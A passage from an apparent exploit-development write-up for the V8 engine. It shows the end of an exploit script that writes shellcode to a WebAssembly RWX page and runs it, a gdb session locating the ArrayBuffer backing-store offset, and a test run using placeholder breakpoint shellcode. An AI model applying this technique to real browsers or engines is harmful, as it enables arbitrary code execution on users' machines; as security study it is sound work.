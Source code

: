     var shellcode=[0xcccccccc];
    console.log("[*] Copying shellcode tp rwx page")
    copy_shellcode(rwx_page_addr, shellcode);
    console.log("[*] Executing shellcode...");
    f();
    

The offset from the ArrayBuffer to the backing store changed from 0x20 to 0x14
(pointer compression). I can find that with the debug version of `d8`:

    
    
    df@buntu:~/v8$ gdb -q out.gn/x64.debug/d8 
    GEF for linux ready, type `gef' to start, `gef config' to configure
    80 commands loaded for GDB 9.2 using Python engine 3.8
    Reading symbols from out.gn/x64.debug/d8...
    gef➤  run --allow-natives-syntax --shell                                                     
    Starting program: /home/df/v8/out.gn/x64.debug/d8 --allow-natives-syntax --shell
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7f09e2100700 (LWP 67750)]
    V8 version 8.5.0 (candidate)                                                                 
    d8> var buf = new ArrayBuffer(8);
    undefined                    
    d8> %DebugPrint(buf);        
    DebugPrint: 0x935080c5e29: [JSArrayBuffer]
     - map: 0x093508281189 <Map(HOLEY_ELEMENTS)> [FastProperties]
     - prototype: 0x0935082478c1 <Object map = 0x935082811b1>
     - elements: 0x0935080406e9 <FixedArray[0]> [HOLEY_ELEMENTS]
     - embedder fields: 2    
     - backing_store: 0x555ab153a820
    ...[snip]...
    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x555ab15c0180, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      ../sysdeps/unix/sysv/linux/read.c: No such file or directory.
    gef➤  x/12xw 0x935080c5e29-1
    0x935080c5e28:  0x08281189      0x080406e9      0x080406e9      0x00000008
    0x935080c5e38:  0x00000000      0xb153a820      0x0000555a      0xb159dc30 <-- backing store at 0x14
    0x935080c5e48:  0x0000555a      0x00000002      0x00000000      0x00000000
    

For now, I’ll let the shellcode be four 0xCC, which is the
[INT3](https://en.wikipedia.org/wiki/INT_\(x86_instruction\)#INT3) instruction
that sets a breakpoint. If I hit this code, `gdb` will break. When I run this,
it does!

    
    
    gef➤  run --allow-natives-syntax exploit.js --shell
    Starting program: /home/df/v8/out.gn/x64.release/d8 --allow-natives-syntax exploit.js --shell
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7fd766778700 (LWP 67784)]
    [*] Creating WASM RWX page
    [+] Found pointer to wasm_instance: 0x82112bd
    [+] Found address of rwx page: 0x3937f5d78000
    [*] Copying shellcode tp rwx page
    [*] Executing shellcode...
    